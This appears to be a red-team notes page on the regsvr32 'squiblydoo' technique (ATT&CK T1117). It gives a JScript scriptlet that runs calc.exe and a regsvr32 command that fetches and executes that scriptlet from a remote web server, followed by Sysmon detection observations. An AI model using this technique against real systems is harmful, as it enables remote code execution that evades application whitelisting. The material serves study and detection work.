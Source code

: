 ```yaml
---
description: regsvr32 (squiblydoo) code execution - bypass application whitelisting.
---
```


# T1117: regsvr32

## Execution

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We need to host the back.sct somehwere on a web server and then we can then execute the above code from the command prompt:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

![calc.exe spawned by regsvr32.exe](../../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means that just by looking at the list of processes on the victim machine, an evil process may not be immedialy evident... Not until you realise how it was invoked though. Sysmon commandline parameters will show what you need to see:

![](../../.gitbook/assets/regsvr32-commandline.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../../.gitbook/assets/regsvr32-network.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1117\",\"type\":\"link\",\"title\":\"Regsvr32 - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

